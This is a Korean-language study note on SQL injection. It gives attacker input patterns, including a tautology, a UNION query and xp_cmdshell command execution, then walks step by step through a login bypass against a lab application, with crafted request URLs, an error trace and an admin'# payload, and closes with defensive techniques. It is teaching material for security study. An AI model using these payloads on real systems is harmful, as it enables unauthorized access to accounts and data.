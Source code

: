 
# SQL Injection

<center><img src = "https://user-images.githubusercontent.com/76420201/106089260-ee74ed00-616a-11eb-8fe7-1ac6681d5e2e.png" ></center>

SQL Injection 이란 악의적인 사용자가 보안상의 취약점을 이용하여, 임의의 SQL 문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위 입니다. 인젝션 공격은 비교적 쉬운 편이고 공격에 성공할 경우 큰 피해를 입힐 수 있는 공격입니다.

- 외부 입력값을 쿼리 조작 문자열 포함 여부를 검증하지 않고 SQL문 생성 및 실행에 사용하는 경우 <br>
    - 쿼리의 의미와 구조가 변경되어서 실행
    - 의도하지 않은 데이터베이스에 대한 조작이 가능

<br>

## 공격자 패턴

1. 항상 참이 되는 입력<br>
ex) a' or 'a' = 'a<br>
select * from users where name = 'a' or 'a' = 'a'<br>
-> 모든 데이터를 조회 -> 권한 밖에 데이터에 접근 가능

2. 오류를 유발하는 입력<br>
ex) a'<br>
select * from users where name = 'a'' 
-> 구분 오류를 유발<br>
-> 시스템 오류를 통해서 시스템 내부 정도 수집에 활용

3. 추가 정보를 조회하는 입력<br>
ex) hong' union select * from ... --<br>
select * from users where name = 'hong' <br>
union<br>
select * from ... --<br>

4. 시스템 명령어 실행하는 입력<br><br>
입력 ex) hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- 
select * from users where name = 'hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- '

해당 DBMS의 쉘 이용이 가능 = 제어권을 탈취


5. 참, 거짓을 유발하는 입력 ⇒ Blind SQL Injection

<br>

## SQL Injection을 이용한 인증과정 우회

@Attacker 가상머신에서 Proxy를 해제 후 http://winxp:8080/openeg로 접속

#1 처리 과정을 추측
사용자 입력
ID: a
PW: b

서버로 전달
http://winxp:8080/openeg/login.do?userid=a&userpw=b

서버에서 처리
select * from users where user_id = 'a' and user_pw = 'b'

#2 입력값이 검증 없이 처리에 사용되는지 여부를 확인
사용자 입력
ID: a'
PW: b'

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'&userpw=b'

서버에서 처리
select * from users where user_id = 'a'' and user_pw = 'b''
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~===

HTTP Status 500 -
type Exception report

message
description The server encountered an internal error () that prevented it from fulfilling this request.

exception
org.springframework.web.util.NestedServletException: Request processing failed; nested exception is org.springframework.jdbc.BadSqlGrammarException: SqlMapClient operation; bad SQL grammar []; nested exception is com.ibatis.common.jdbc.exception.NestedSQLException:   
--- The error occurred in kr/co/openeg/lab/login/dao/login.xml.  
--- The error occurred while applying a parameter map.  
--- Check the login.loginCheck2-InlineParameterMap.  
--- Check the statement (query failed).  
--- Cause: com.mysql.jdbc.exceptions.jdbc4.MySQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'b''' at line 1
	org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:894)
					:

#3 수집한 정보를 이용해서 추가 공격 시도
사용자 입력
ID: a'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'a'#' and user_pw = 'b'#'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


#4 가입된 회원 정보를 조회
amdin으로 회원 가입을 시도 → 이미 가입된 회원 ⇒ admin 이라는 아이디를 사용하는 사용자가 존재


#5 admin으로 로그인을 시도
사용자 입력
ID: admin'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=admin'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'admin'#' and user_pw = 'b'#'






## 방어 기법

방어기법
- 쿼리 조작 문자열 포함 여부를 확인
    - 제거하고 사용
    - 안전한 형태로 바꿔서 사용
- 일정한 형태로 쿼리가 실행되는 것을 보장 = 구조화된 쿼리 실행 = 파라미터화된 쿼리 실행 = 정적 쿼리 실행
- 오류 메시지를 통제 = 오류 메시지에 시스템 정보가 포함되지 않도록 처리
- 어플리케이션에서 사용하는 DB 사용자의 권한을 최소로 부여
